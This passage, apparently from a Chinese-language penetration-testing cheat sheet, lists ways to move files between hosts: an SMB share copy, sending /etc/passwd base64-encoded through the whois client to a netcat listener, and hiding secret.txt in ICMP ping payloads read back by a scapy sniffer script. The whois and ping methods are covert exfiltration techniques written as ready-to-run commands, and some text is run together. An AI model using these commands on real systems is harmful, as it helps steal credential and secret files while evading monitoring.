 #### 上传文件到 SMB server

```
net use x: \\IP\ShareName

copy file.txt x:

net use x: /delete
```

### 使用 whois 命令进行文件传输

/etc/passwdHost AHost B

接收端 Host B：

```
nc -vlnp 1337 | sed "s/ //g" | base64 -d 
```

发送端 Host A：

```
whois -h 127.0.0.1 -p 1337 `cat /etc/passwd | base64` 
```

### 使用 ping 命令进行文件传输

secret.txtSenderReciver

发送端:

```
xxd -p -c 4 secret.txt | while read line; do ping -c 1 -p $line ip; done
```

接收端:

以下代码保存到 `ping_receiver.py`

```
import sys

try:
    from scapy.all import *
except:
    print("Scapy not found, please install scapy: pip install scapy")
    sys.exit(0)


def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 8:
            data = pkt[ICMP].load[-4:]
            print(f'{data.decode("utf-8")}', flush=True, end="", sep="")

sniff(iface="eth0", prn=process_packet)
```
